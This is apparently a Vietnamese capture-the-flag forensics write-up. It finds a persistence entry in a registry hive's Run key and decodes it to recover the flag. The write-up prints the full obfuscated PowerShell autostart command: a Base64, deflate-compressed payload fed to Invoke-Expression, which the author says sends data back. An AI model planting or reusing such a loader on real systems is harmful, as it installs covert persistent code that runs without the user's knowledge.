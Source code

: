 ![Screenshot (4446)](https://github.com/NVex0/uWU/assets/113530029/3f69c15c-fbd0-421a-9994-13e27c76e23c)

#### Solve:

Đề bài cung cấp 1 file NTUSER.DAT. Và với mô tả của bài thì ta hiểu máy Hoà bị đặt persistence rồi, cụ thể là đặt trong autostart registry key. Mình load file vào Registry Viewer và tìm tới path: `Software\Microsoft\Windows\CurrentVersion\Run`:

![image](https://github.com/NVex0/uWU/assets/113530029/63dce788-68d7-4894-927b-d6b3b4e4a360)

Đây là đoạn code nằm trong value này:

```"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" "(neW-obJEct io.COMprEssIon.dEFlATesTReAm( [sySTem.IO.memorYSTREam] [coNVeRT]::FRoMBAse64stRInG( 'TVFva4JAGP8qh7hxx/IwzbaSBZtsKwiLGexFhJg+pMs09AmL6rvP03S9uoe739/nZD+OIEHySmwolNn6F3wkzilH2HEbkDupvwXM+cKaWxWSSt2Bxrv9F64ZOteepU5vYOjMlHPMwNuVQnItyb8AneqOMnO5PiEsVytZnHkJUjnvG4ZuXB7O6tUswigGSuVI0Gsh/g1eQGt8h6gdUo98CskGQ8aIkgBR2dmUAw+9kkfvCiiL0x5sbwdNlQUckb851mTykfhpECUbdstXjo2LMIlEE0iCtedvhWgER1I7aKPHLrmQ2QGVmkbuoFoVvOE9Eckaj8+26vbcTeomqptjL3OLUM/0q1Q+030RMD73MBTYEZFuSmUMYbpEERduSVfDYZW8SvwuktJ/33bx/CeLEGirU7Zp52ZpLfYzPuQhZVez+SsrTnOg7A8='), [SYSTEM.iO.ComPReSSion.CoMPrEsSIonmODe]::DeCOmpresS)|FOREAcH-object{ neW-obJEct io.streAMrEadeR( $_,[sysTem.TExt.EnCoDING]::asCIi )}).reaDToEnD()|inVOKe-exprEsSIon"```

Để ý thì đoạn trên code, phần base64 kia sẽ được xử lí bằng cách b64decode và decompress. Mình dùng cyberchef để làm việc tương tự:

![image](https://github.com/NVex0/uWU/assets/113530029/ad887edd-5e55-4914-9978-0773fdd26333)

Phần data sendback về chứa flag luôn :>

Flag: `CHH{N0_4_go_n0_st4r_wh3r3}`
